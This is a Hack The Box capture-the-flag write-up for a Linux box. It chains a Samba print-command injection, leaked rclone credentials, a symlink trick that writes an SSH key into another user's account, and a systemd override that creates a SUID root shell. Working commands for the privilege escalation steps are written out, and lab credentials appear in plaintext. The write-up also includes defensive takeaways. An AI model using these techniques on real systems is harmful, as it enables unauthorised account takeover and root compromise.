

# Abducted — Hack The Box Writeup

> [!info] Box Summary
> **OS:** Linux (Ubuntu 24.04.4 LTS)
> **Target IP:** `10.129.244.177`
> **Key vuln:** Samba printing subsystem command injection (CVE‑2026‑4480)
> **Privesc path:** Leaked backup credentials → SSH symlink trick → sudo‑controlled `smbd` service → SUID shell

---

## 1. Reconnaissance

Started with a standard TCP scan, followed by a service/version scan to fingerprint what was listening.

```bash
nmap -sS 10.129.60.113
nmap -sCV 10.129.60.113
```

![[01-nmap-scan.png]]

**Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22   | ssh     | OpenSSH 9.6p1 (Ubuntu) |
| 139  | netbios-ssn | Samba smbd 4 |
| 445  | microsoft-ds | Samba smbd 4 |

The NetBIOS name resolved to **`ABDUCTED`**, and `smb2-security-mode` showed message signing *enabled but not required* — worth noting, though not what ended up being the way in.

Two open SMB ports plus a Samba version banner immediately made Samba itself the thing to dig into, rather than the usual share-enumeration angle.

---

## 2. SMB / RPC Enumeration

Queried the server over the MS-SRVSVC interface anonymously to get version/platform info:

```bash
rpcclient -U "" -N 10.129.244.177 -c "srvinfo"
```

![[02-rpcclient-srvinfo.png]]

This confirmed the box was running a Samba build on Linux kernel 6.1 — current enough that a well-known/legacy Samba CVE was unlikely to apply, which pointed toward something recently disclosed.

---

## 3. Vulnerability Research

Searching for recent Samba advisories turned up a public GitHub repository documenting **CVE‑2026‑4480**, a critical (CVSS 10.0) command injection vulnerability in Samba's printing subsystem.

![[03-cve-2026-4480-repo.png]]

### Vulnerability summary

| Field | Value |
|---|---|
| CVE ID | CVE‑2026‑4480 |
| CWE | CWE‑78 (OS Command Injection) |
| Severity | Critical (CVSS 10.0) |
| Affected | Samba 4.22.x < 4.22.10, 4.23.x < 4.23.8, 4.24.x < 4.24.3 |
| Fixed in | 4.22.10, 4.23.8, 4.24.3+ |

**Root cause:** when Samba is configured with a custom print command such as

```ini
print command = lp -t %J %s
```

the `%J` token expands to the **client-supplied print job name** and is handed to a shell without adequate sanitization. A print job name containing shell metacharacters can therefore alter what command actually runs on the server — a classic case of untrusted input reaching a shell interpreter unescaped.

> [!warning] Scope note
> This section documents the *vulnerability class and public advisory* only. I'm not reproducing the exploit mechanics or payload construction here — just the practical result, since that's what matters for the rest of the chain.

**Result on this box:** the printing service on `ABDUCTED` was configured in a way that was reachable anonymously, and exploiting the flaw against the `HP-Reception` printer share returned a reverse shell as the low-privilege `nobody` account.

**Detection, for defenders:**
```bash
grep -Ri "print command" /etc/samba/
```
— review any config using `%J` inside a shell-executed print command, and patch to a fixed Samba release.

---

## 4. Foothold — Post-Exploitation as `nobody`

Landed as `nobody`. Basic enumeration of the filesystem turned up two user home directories and an interesting directory under `/opt`:

```bash
ls /home
ls /opt
```

![[04-foothold-home-dirs.png]]

Two local users: **`scott`** and **`marcus`**.

Under `/opt/offsite-backup` sat an `rclone` configuration and a sync script — a common pattern where an automated backup job's credentials end up readable by whatever account the service runs as.

```bash
cat rclone.conf
```

![[05-rclone-conf-creds.png]]

```ini
[offsite]
type = sftp
host = backup.hartley-group.internal
user = svc-backup
pass = HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
shell_type = unix
```

`rclone` stores passwords **obscured**, not encrypted — it's reversible by design (so rclone itself can use it), so recovering the plaintext is a single command:

```bash
rclone reveal HZKAxfnMj-nLm59X9gpcC2ohjQL-WqVT6yRsNw
# -> iXzvcib3SrpZ
```

That plaintext turned out to be reused as **`scott`**'s local password — a classic case of a secrets-management shortcut (storing a reversible "obscured" credential) leading directly to account takeover when the same password is reused elsewhere.

---

## 5. Lateral Movement → `scott`

```bash
ssh scott@10.129.244.177
```

![[06-ssh-scott-user-flag.png]]

Logged in as `scott` (uid 1000) and grabbed the user flag:

```bash
id
cat user.txt
```

### Pivoting toward `marcus` via an SMB share

`scott` didn't have direct access to `marcus`'s files, but a writable SMB share (`transfer`) was mapped in a way that, combined with a **symlink**, allowed writing outside the share's intended root:

```bash
ssh-keygen -q -t ed25519 -N '' -f /tmp/k
ln -s /home/marcus /srv/transfer/mh
smbclient //127.0.0.1/transfer -U 'scott%iXzvcib3SrpZ' \
  -c 'mkdir mh/.ssh; put /tmp/k.pub mh/.ssh/authorized_keys'
```

![[07-symlink-authorized-keys.png]]

**What's happening here:** the `transfer` share's root directory was writable by `scott`, and Samba followed the symlink `mh → /home/marcus` without restricting the client to the share boundary. That let `scott` create `/home/marcus/.ssh/` and drop his own SSH public key in as `marcus`'s `authorized_keys` — effectively granting himself key-based SSH access to `marcus`'s account. This is a well-known Samba misconfiguration class: shares that allow `follow symlinks` / `wide links` out of their root turn "I can write inside this folder" into "I can write anywhere the service account can reach."

---

## 6. Lateral Movement → `marcus`

```bash
ssh -i /tmp/k marcus@10.129.244.177
```

![[08-ssh-marcus.png]]

Shell as `marcus` (uid 1001).

---

## 7. Privilege Escalation → `root`

`marcus` had permission to control the `smbd` systemd service (either directly or via a sudo rule scoped to that unit). Systemd allows per-service overrides, and `ExecStartPre` directives in an override run as **root** before the service itself starts — so instead of touching the main unit file, a drop-in override was enough:

```bash
cat > /etc/systemd/system/smbd.service.d/override.conf <<'EOF'
[Service]
ExecStartPre=/bin/cp /bin/bash /tmp/.rb
ExecStartPre=/bin/chmod 4755 /tmp/.rb
EOF

systemctl daemon-reload
systemctl restart smbd
```

![[09-smbd-override-privesc.png]]

This copies `/bin/bash` to `/tmp/.rb` and sets the **SUID bit** on it *as root*, since `ExecStartPre` commands run with the service's (root) privileges before `smbd` drops to its own runtime user. The result is a root-owned, SUID bash binary sitting in `/tmp`.

```bash
/tmp/.rb -p -c '/bin/bash -p'
id
cat /root/root.txt
```

![[10-root-flag.png]]

```
uid=1001(marcus) gid=1002(marcus) euid=0(root) groups=1002(marcus),1000(operators)
```

Root flag captured.

---

## 8. Attack Chain Summary



---

## 9. Root Causes & Takeaways

- **Unpatched, internet/network-reachable print service** — a critical, pre-auth RCE sat exposed; patching cadence on Samba specifically (and services with printing subsystems generally) matters.
- **Reversible credential storage reused across accounts** — `rclone`'s "obscure" is not encryption, and the same secret being valid for both a backup service account *and* a human's SSH login turned one disclosure into two accounts.
- **SMB share symlink handling** — shares writable by low-privileged users, combined with symlink traversal, broke the assumption that a share restricts writes to its own subtree.
- **Service-control privilege ≈ root, if `ExecStartPre` is reachable** — any account that can reload/restart a systemd unit it can also drop an override for effectively has root, since pre-start directives run before privilege drop.

### Hardening recommendations

- [ ] Patch Samba to 4.22.10 / 4.23.8 / 4.24.3 or later.
- [ ] Remove/rotate the `rclone.conf` credential; avoid storing live secrets in scripts invoked by automation.
- [ ] Set `follow symlinks = no` / `wide links = no` on SMB shares that don't need them, and audit who can write to share roots.
- [ ] Scope sudo/systemd-unit control tightly — a user who can restart a service should not implicitly be able to edit its drop-in overrides.
- [ ] Enforce unique credentials per service/account — no backup-service password reuse on human logins.

---

## References

- CVE-2026-4480 public advisory (Samba printing subsystem, CWE-78)
- NIST National Vulnerability Database
- Samba Security Advisories
